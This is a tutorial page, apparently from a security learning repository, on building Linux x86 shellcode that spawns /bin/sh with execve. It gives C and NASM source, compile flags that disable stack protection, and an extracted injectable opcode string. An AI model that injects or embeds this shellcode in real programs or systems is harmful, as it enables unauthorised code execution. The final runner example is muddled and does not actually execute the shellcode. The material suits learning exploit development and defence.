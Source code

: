 # Spawning a Shell

The easiest and quickest way to create a shell is to create a new process.

There are two ways to do this in Linux:

- Creating a process that will replace the parent process using `execve()`.
- Creating a copy of the parent process using `fork()` and `execve()`.

Here's `./spawnshell.c` of using the former:

```c title="spawnshell.c"
#include <stdio.h>
int main()
{
    char *happy[2];
    happy[0] = "/bin/sh";
    happy[1] = NULL;
    execve(happy[0], happy, NULL);
}
```

To make this injectable, we need to translate it into opcodes. We need to use `-static` flag with `gcc` to prevent dynamic linking.

```bash
gcc -o spawnshell -fno-stack-protector -m32 -ggdb -static spawnshell.c
./spawnshell

$ whoami
kobbi
```

## Review of `execve` System Call

If we look at the signature of the `execve` method using its `man` page, we can see that it expects 3 arguments:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

- The first argument is a pointer to the name/path of the interpreter (`sh` in our case).
- The second argument is a pointer to an array of arguments passed to the interpreter.
- The third is a pointer to an array of environmental variable key-value pairs.

To use this syscall, we need to pass data to 4 registers.

`EAX` will hold the syscall number for `execve` which is decimal 11 or `0x0b` (see [Linux System Call Table](http://faculty.nps.edu/cseagle/assembly/sys_call.html)). The rest of the registers (`EBX`, `ECX`, `EDX`) will hold the arguments.

We can see the assembly instructions here:

```
(gdb) disas execve
Dump of assembler code for function execve:
   0x0806dee0 <+0>:     endbr32 
   0x0806dee4 <+4>:     push   %ebx
   0x0806dee5 <+5>:     mov    0x10(%esp),%edx
   0x0806dee9 <+9>:     mov    0xc(%esp),%ecx
   0x0806deed <+13>:    mov    0x8(%esp),%ebx
=> 0x0806def1 <+17>:    mov    $0xb,%eax
   0x0806def6 <+22>:    call   *%gs:0x10
   0x0806defd <+29>:    pop    %ebx
   0x0806defe <+30>:    cmp    $0xfffff001,%eax
   0x0806df03 <+35>:    jae    0x8073510 <__syscall_error>
   0x0806df09 <+41>:    ret    
End of assembler dump.

(gdb) i r
eax            0xb                 11
ecx            0xffffcc74          -13196
edx            0x0                 0
ebx            0x80b4008           134955016
esp            0xffffcc58          0xffffcc58
ebp            0xffffcc88          0xffffcc88
eip            0x806def6           0x806def6 <execve+22>

(gdb) x/s $ebx
0x80b4008:      "/bin/sh"

```

As expected, we see that:

- `EAX` holds `0xb` which is syscall 11.
- `EBX` holds the first argument to `execve()`, the interpreter path `/bin/sh`.
- `ECX` holds the address to the argument array.
- `EDX` holds the address of `NULL`.

However, since `ECX` and `EDX` hold hardcoded addresses, the shellcode would break if we use them in different systems.

To get around this problem, we use **relative addressing**.

## Relative Addressing

The classical way to use relative addressing involves placing the beginning address of the shellcode into a register.
To do this, we start the shellcode off with a `jmp` instruction to the `call` instruction. When the `call` instruction is executed, the address of the instructions immediately following the `call` instruction is pushed onto the stack. We need to place whatever we want to use as the base relative address directly following the `call` instruction. Since we want our shellcode to be executed, we will have the `call` instruction call the instruction immediately following the initial `jmp`.
The last step is to add the `pop esi` instruction right after the first `jmp` instruction. This will allow us to reference different bytes in our shellcode by using the distance/offset from `esi`.

Here is some pseudo-code to illustrate how it would look:

```
    jmp short   GotoCall

shellcode:
    pop esi
    ...
    <shellcode>
    ...

GotoCall:
    call    shellcode
    db      '/bin/sh' ; define byte sets aside space in memory for a string
```

See the full assembly code `execve.asm`:

```armasm title="execve.asm"
Section .text

 global _start
 
 
_start:
 jmp  GotoCall
 
shellcode:
 pop         esi
 xor         eax, eax            ; set eax to null
 mov byte [esi + 7], al       ; terminate /bin/sh with null, overwriting J
 lea         ebx, [esi]          ; copy address of beginning of /bin/sh to ebx
 mov long [esi + 8], ebx      ; copy address of beginning of /bin/sh over AAAA
 mov long [esi + 12], eax     ; copy nulls over KKKK
 mov byte al, 0x0b            ; copy syscall
 mov         ebx, esi            ; copy address of /bin/sh into ebx
 lea         ecx, [esi + 8]      ; copy pointer to /bin/sh into ecx
 lea         edx, [esi + 12]     ; copy pointer to null into edx
 int         0x80                ; call interrupt
 
GotoCall:
 call shellcode
 db '/bin/shJAAAAKKKK' ; JAAAAKKKK are placeholders used for reference. will be overwritten
```

Compile it using:

```bash
nasm -f elf -o execve.o -g execve.asm
ld -m elf_i386 -s -o execve execve.o
```

We can then get the opcodes:

```bash
objdump -d execve | cut  -f2 | awk "NR > 7" | xargs | sed 's/ /\\x/g'

eb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b
```

Compile and run [the source](./execve.c):

```c title="execve.c"
/* execve.c */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int
main(int argc, char *argv[])
{
    char *newargv[] = { NULL, "hello", "world", NULL };
    char *newenviron[] = { NULL };

    if (argc != 2) {
        fprintf(stderr, "Usage: %s <file-to-exec>\n", argv[0]);
        exit(EXIT_FAILURE);
    }

    newargv[0] = argv[1];

    execve(argv[1], newargv, newenviron);
    perror("execve");   /* execve() returns only on error */
    exit(EXIT_FAILURE);
}
```

```bash
gcc -fno-stack-protector -z execstack -o execve_run -ggdb execve.c
./execve
```
